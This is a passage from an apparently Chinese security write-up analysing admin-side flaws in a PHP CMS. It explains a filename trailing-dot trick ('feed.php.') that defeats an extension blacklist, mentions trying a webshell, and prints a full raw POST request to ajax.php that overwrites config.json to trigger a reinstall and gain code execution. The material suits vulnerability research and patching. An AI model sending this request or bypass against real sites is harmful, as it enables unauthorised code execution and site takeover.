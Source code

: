 - (1)获取后缀名并赋值给$kname
- (2)将POST传入的txt参数进行过滤
- (3)判断$path的文件是否存在
- (4)判断$kname是否合法（核心过滤点）
- (5)然后进行保存

看起来，以上的流程并无漏洞，但是当我们传入的内容为`feed.php.`时，则`$kname`的值变成了空，而对空值进`preg_match('/asp|php|apsx|asax|ascx|cdx|cer|cgi|json|jsp/i', $kname)`的判断，则一定为`False`，因此可以绕过核心过滤点。

实践如下：直接修改，会现实不允许保存该格式文件

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-58fef286a427ad550df9a68cfc21065a0563448e.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-58fef286a427ad550df9a68cfc21065a0563448e.png)

绕过：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f8ad2c364a250a93a7f3c3a09664b63744797fb1.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-f8ad2c364a250a93a7f3c3a09664b63744797fb1.png)

尝试webshell：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-575715b72828f3ea96c6551411e349ec1d151b01.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-575715b72828f3ea96c6551411e349ec1d151b01.png)

2.2 后台RCE之重装CMS覆盖配置文件
---------------------

在这个CMS一直都有一个重装getshell的方法，我们先看下触发重装的方法是什么：

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c217ab30a2abd5874b2bceab6e8482844e712e2f.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-c217ab30a2abd5874b2bceab6e8482844e712e2f.png)

然而，我们可以通过2.2中分析的漏洞，修改config.json的内容，数据包为：

```php
POST /admin/ajax.php?type=savetxt&path=/data/config.json. HTTP/1.1
Host: 10.211.55.10:8082
Content-Length: 185
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_6) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://10.211.55.10:8082
Referer: http://10.211.55.10:8082/admin/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: count_all=0; authx=; userx=; passx=; add=%E4%B8%AD%E5%9B%BD; user=admin; pass=c5a896f598dd81826b6043bcc3c7cfe9; A_type=1; auth=1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1%7C1; newsauth=all; productauth=all; textauth=all; formauth=all; bbsauth=all; PHPSESSID=bmpa9h5omv0mkjphlelkkvqc12; Hm_lvt_b60316de6009d5654de7312f772162be=1626009231,1626661445; Hm_lpvt_b60316de6009d5654de7312f772162be=1626665207
Connection: close

txt={"first"%3a"1","table"%3a"SL_","template"%3a"true","plug"%3a"true","from"%3a"free","url"%3a"https%3a\/\/www.s-cms.cn","id"%3a"0","https"%3a"false","api"%3a"http%3a\/\/cdn.s-cms.cn"}
```
